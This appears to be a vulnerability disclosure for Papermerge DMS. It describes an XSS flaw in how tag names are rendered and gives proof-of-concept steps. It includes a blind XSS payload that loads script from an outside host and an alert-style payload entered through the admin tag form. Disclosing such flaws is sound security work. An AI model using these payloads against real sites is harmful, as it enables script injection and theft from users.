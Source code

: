 # Description
Papermerge is an open source document management system (DMS) primarily designed for archiving and retrieving your digital documents. Instead of having piles of paper documents all over your desk, office or drawers - you can quickly scan them and configure your scanner to directly upload to Papermerge DMS. Papermerge DMS on its turn will extract text data from the scanned documents using Optical Character Recognition (OCR) technology the index it and make it searchable. You will be able to quickly find any (scanned!) document using full text search capabilities.
Papermerge is perfect tool to manage PDF, JPEG, TIFF and PNG formats.
papermerge-js is the Frontend of papermerge-js. 
# Technical Description
XSS in papermerge DMS via rendering of unsanitized tag name in the input label.
# Proof of Concept

* XSS payloads Used for exploit :
  * blind xss payload : ```"><script src=https://copp.xss.ht></script> ``` **use your own blind payloads**
  * Reflected XSS payload : ```<img src=x onerror=alert(1337)>```

1. setup papermerge in your localhost 
2. move to http://127.0.0.1:8000/admin/tag/add/
3. put the payload in the Name field 
4. BOOM !! XSS triggered
![Screenshot from 2021-02-08 18-38-37](https://user-images.githubusercontent.com/43377443/107478975-634f1a80-6ba0-11eb-95f7-a002bd652f35.png)

